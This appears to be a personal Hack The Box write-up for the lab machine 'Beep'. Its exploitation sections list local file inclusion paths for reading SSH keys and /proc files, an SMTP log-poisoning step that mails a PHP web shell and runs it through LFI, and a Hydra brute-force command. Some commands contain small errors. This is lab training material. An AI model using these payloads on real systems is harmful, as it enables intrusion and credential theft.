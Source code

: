 # Beep Hack The Box Tips

# ${{\color{purple}Initial Recon}}\ $

# ${{\color{purple}Initial Foothold}}\ $

* First point when he have a security TLS error in firefox like this 
 ![image](https://user-images.githubusercontent.com/123066149/217526766-f4604150-68a0-465c-8ade-30c2f22b9e17.png)

You have to go to the firefox settings and accept the depreciated protocols -> new tab -> about:config -> security.version.enable-deprecated (true)

# ${{\color{purple}Exploitation}}\ $

LFI tips: 
- /var/lib/<username>/.ssh/id_rsa%00
- /proc/self/status%00 (look at the uid of the user and look at the user who runs the application in `/etc/passwd`)
- check /proc/self/about%00 (check the possible user agent `<?php echo "hello"; ?>`)
- use the burp suite intruder to see if there are any other accessible files
  
# ${{\color{purple}Privilege Escalation}}\ $

![image](https://user-images.githubusercontent.com/123066149/217532253-26283ba3-dd22-439b-bfbc-8ddf4a65e467.png)
  
`telnet 10.10.10.7 25` 
  
  ### or
  
`nc -nvv 10.10.10.7 25`
  
``EHLO test.beep.htb``
  
``VRFY asterisk@localhost``
  
``mail from:pwned@haha.io``
  
``rcpt to:asterisk@localhost``
  
``data``
  
``Subject: You got owned``
  
``<?php echo system($REQUEST['id']); ?>``
  
``blanck line``
  
``.``
  
![beep2](https://user-images.githubusercontent.com/123066149/217533503-0b8ad502-2a6b-4d82-ba0b-65842e428c39.PNG)

 use burp to try a code execution : `/var/mail/user%00`
  
# ${{\color{purple}Points of Improvement}}\ $

* Improve my directory brute force
* Use `curl -k (https://) -o xxx.png` use -k for allow insecure server connections
* Use `exiftool` for .png
* Use `ctrl + U` to improve a display
* Use vi `:g/nologin/d` to clean up the outputw of the `/etc/passwd` file
* When i found a `password` and `user` don't hesitate to directly do a bruteforce

`ssh hydra -L users -P pw ssh://IP`
* Use the smart decode function of burp
